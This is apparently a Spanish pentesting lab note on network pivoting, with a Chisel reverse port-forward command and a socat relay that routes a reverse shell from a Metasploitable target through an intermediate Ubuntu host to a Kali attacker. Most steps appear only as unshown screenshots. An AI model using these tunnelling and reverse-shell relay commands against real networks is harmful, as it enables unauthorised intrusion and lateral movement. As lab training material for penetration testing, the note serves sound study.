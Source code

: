 Tendremos el siguiente escenario:
![[Pasted image 20240115131504.png]]
Chisel es una herramienta de pivoting compatible tanto con máquinas Windows como Linux. Nos permite de forma muy cómoda prácticamente obtener las mismas funciones que SSH (en el aspecto de Port Forwarding).

Tenemos un repositorio oficial para descargar la herramienta:
```bash
https://github.com/jpillora/chisel/releases
```

![[Pasted image 20230804090601.png]]
![[Pasted image 20230804090727.png]]
Nos lo descargamos en nuestra máquina atacante:
![[Pasted image 20240115131742.png]]
![[Pasted image 20240115131805.png]]
Y ahora ejecutamos el servidor con chisel desde nuestra máquina kali para recibir las conexiones:
![[Pasted image 20240115132345.png]]
A continuación, ejecutamos el siguiente comando en la máquina intermedia para indicar que el puerto 80 de la máquina final se convierta en el puerto 5000 de mi máquina atacante:
```bash
./chisel client 192.168.0.37:1234 R:5000:10.10.10.11:80
```
![[Pasted image 20240115132610.png]]
Y entonces ahora nuestro localhost de la máquina kali por el puerto 5000 será el puerto 80 de la máquina final:
![[Pasted image 20240115132637.png]]
Ahora, si queremos conseguir una reverse shell, tenemos que utilizar socat, ya que nosotros podemos ver a la máquina metasploitable, pero sin embargo esta máquina no nos ve a nosotros, por lo que dentro de la máquina intermedia ejecutamos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
Y ahora ya podríamos efectuar cualquier ataque desde la máquina Kali y recibir la conexión desde la máquina final, pasando primero por el puerto 443 de la máquina ubuntu y luego enviando dicha conexión al puerto 443 de la máquina Kali.
